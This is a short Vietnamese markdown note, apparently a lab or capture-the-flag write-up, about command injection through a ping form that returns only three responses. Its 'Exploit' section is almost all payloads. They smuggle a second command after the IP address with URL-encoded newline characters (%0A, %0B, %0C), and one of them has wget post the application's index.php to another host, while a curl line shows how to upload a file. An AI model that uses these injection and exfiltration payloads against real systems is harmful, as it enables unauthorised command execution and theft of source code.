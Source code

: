 # Nhận Biết
- Chỉ trả về 3 kết quả
- Ping OK
- Ping NOT OK
- Syntax Error


# Exploit
```cmd
127.0.0.1 %0A wget 192.168.1.1      => OK
%0A có thể thay = %0B , %0C , %0a%0d

127.0.0.1 %0A wget 192.168.1.1 -v -F filename=index.php -F upload=@index.php

```
- Dùng curl để gửi file vào url 
`curl -v -F filename=tenfile.txt -F upload=@tenfile.txt http://localhost:8080/api/upload`



